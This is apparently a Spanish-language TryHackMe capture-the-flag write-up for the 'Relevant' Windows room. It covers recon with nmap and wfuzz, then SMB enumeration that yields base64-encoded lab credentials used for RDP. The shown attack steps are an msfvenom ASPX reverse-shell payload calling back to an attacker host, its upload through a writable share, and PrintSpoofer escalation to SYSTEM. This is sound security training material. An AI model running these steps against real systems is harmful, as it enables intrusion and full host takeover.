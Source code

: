 # Relevant - TryHackMe

**IP:** 10.10.113.171

## Reconocimiento Inicial

### Ping
```bash
ping -c 1 10.10.113.171
```
- `ttl=127`: Sistema objetivo probablemente **Windows**

### Nmap
```bash
nmap -sC -sV -p- -oN nmap -v 10.10.113.171
```
- Escaneo completo de puertos y detección de versiones.

## Descubrimiento de Recursos Web
```bash
sudo wfuzz -c -L -t 400 --sc=200,301 -w directory-list-2.3-medium.txt http://10.10.113.171/FUZZ
```
- Descubrimiento de rutas ocultas en servidor HTTP IIS.

## Enumeración SMB
```bash
smbclient -L 10.10.113.171
```
- Recursos encontrados:
  - `ADMIN$`
  - `C$`
  - `IPC$`
  - `nt4wrksv`

### Acceso a nt4wrksv
```bash
smbclient //10.10.113.171/nt4wrksv
```
- Archivo interesante: `passwords.txt`

### Contenido de passwords.txt
```
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```
- Decodificado con CyberChef:
  - `Bill : Juw4nnaM4n420696969!$$$`

## Acceso vía RDP
```bash
xfreerdp /u:RELEVANT\BILL /p:'Juw4nnaM4n420696969!$$$' /v:10.10.38.87
```

## Servidor Web IIS
- Probamos ruta compartida desde web:
```http
http://10.10.38.87:49663/nt4wrksv/passwords.txt
```

## Payload ASPX con msfvenom
```bash
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.2.17.74 LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx
```
- Subida mediante SMB/Web compartido.
- Activación con navegador.

## Escalada de Privilegios
- Uso de **PrintSpoofer** (`SeCreateGlobalPrivilege`):
  - Subida y ejecución del binario `PrintSpoofer.exe`.
  - Obtención de shell como `NT AUTHORITY\SYSTEM`.

### Búsqueda de flags
```cmd
cd /
dir *.exe /s /p
type root.txt
```
